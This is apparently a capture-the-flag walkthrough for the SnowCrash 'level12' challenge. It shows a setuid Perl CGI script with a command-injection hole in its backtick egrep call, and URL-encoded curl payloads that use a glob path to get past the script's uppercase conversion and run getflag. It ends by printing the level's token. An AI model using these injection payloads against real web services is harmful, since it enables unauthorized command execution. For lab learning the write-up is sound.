 # Level12

## Walkthrough

We list the files in the home directory.

```bash
level12@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ file level12.pl 
level12.pl: setuid setgid a perl script, ASCII text executable
```

`level12` is a **Perl** script owned by **flag12** and has the **setuid** flag.

We display the content of the script.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
    ($f, $s) = split(/:/, $line);
    if($s =~ $nn) {
      return 1;
    }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
    print("..");
  } else {
    print(".");
  }    
}

n(t(param("x"), param("y")));
```

From the first 2 lines, it seems the script is probably a HTTP server running on port **4646**.

```bash
level12@SnowCrash:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=2012 but you should be root.)
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::4646                 :::*                    LISTEN      -               
tcp6       0      0 :::4747                 :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::4242                 :::*                    LISTEN      -   
```

The last lines of the script inform us that the server accepts 2 query parameters : `x` and `y`. Then, it calls a subroutine to perform some string manipulations, but only returns `1` or `0` and prints either `.` or `..`.

With our experience acquired from past levels, we can guess that the sole line of instructions which seems to be exploitable is the one calling the `egrep` command. Like previous levels, we might use command substitution to run the `getflag` command, because the backticks in Perl act like a `system` call which returns the output printed on stdout.  
The `$xx` variable refers to the `x` query parameter.

```bash
level12@SnowCrash:~$ curl localhost:4646?x=$(getflag)
curl: (6) Couldn't resolve host 'flag.Here'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'your'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host ''
curl: (6) Couldn't resolve host 'Nope'
curl: (6) Couldn't resolve host 'there'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'no'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host 'here'
curl: (6) Couldn't resolve host 'for'
curl: (6) Couldn't resolve host 'you'
curl: (6) Couldn't resolve host 'sorry.'
curl: (6) Couldn't resolve host 'Try'
curl: (6) Couldn't resolve host 'again'
curl: (6) Couldn't resolve host ''
..level12@SnowCrash:~$ curl localhost:4646?x="$(getflag)"
curl: (3) Illegal characters found in URL
```

If we pass `$(getflag)`, the command substitution happens in the current context.  
The first argument in the `egrep` command is enclosed into double quotes, so we don't need to write them ourselves but if we don't the command will be run instantly as previously seen. One solution is to encode these special characters to prevent the shell from interpreting the command.

```bash
# $(getflag)
level12@SnowCrash:~$ curl localhost:4646?x=%24%28getflag%29
..level12@SnowCrash:~$
```

Nothing happens, probably because all the text printed on stdout is stored in the `@output` variable. The solution might be to store the output of our command in a temporary file.

```bash
# $(getflag > /tmp/token)
level12@SnowCrash:~$ curl localhost:4646?x=%22%24%28getflag%29%20%3E%20%2Ftmp%2Ftoken%22
.level12@SnowCrash:~$ cat /tmp/token
cat: /tmp/token: No such file or directory
```

We analyze the code to check if we missed something. Indeed, before calling `egrep` the script replaces all lowercase characters by an uppercase, and trims all space characters at the start of the string.  
This means that our argument `%22%24%28getflag%29%20%3E%20%2Ftmp%2Ftoken%22` is transformed to `%22%24%28GETFLAG%29%20%3E%20%2FTMP%2FTOKEN%22`.

We cannot store the command inside an environment variable because it will only belong to user **level13**.  
Using a file to store our command is another option, but because of the uppercase replacement, we cannot create one in `/tmp` and pass it to `x` as it will be looking for `/TMP/...`.  

We know that a special character `*` exists in shell to match any character.

```bash
level12@SnowCrash:~$ mkdir /tmp/LEVEL12
level12@SnowCrash:~$ vim /tmp/LEVEL12/SCRIPT
level12@SnowCrash:~$ cat /tmp/LEVEL12/SCRIPT
#!/bin/sh

getflag > /tmp/LEVEL12/TOKEN
level12@SnowCrash:~$ chmod +x /tmp/LEVEL12/SCRIPT
level12@SnowCrash:~$ curl localhost:4646?x=%24%28%2F%2A%2FLEVEL12%2FSCRIPT%29
..level12@SnowCrash:~$ ^C
level12@SnowCrash:~$ cat /tmp/LEVEL12/TOKEN
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

## Resources

- [What's the difference between Perl's backticks, system, and exec?](https://stackoverflow.com/questions/799968/whats-the-difference-between-perls-backticks-system-and-exec)
- [Special characters like @ and & in cURL POST data](https://stackoverflow.com/questions/10060093/special-characters-like-and-in-curl-post-data)
- [URL encoder](https://www.urlencoder.org)
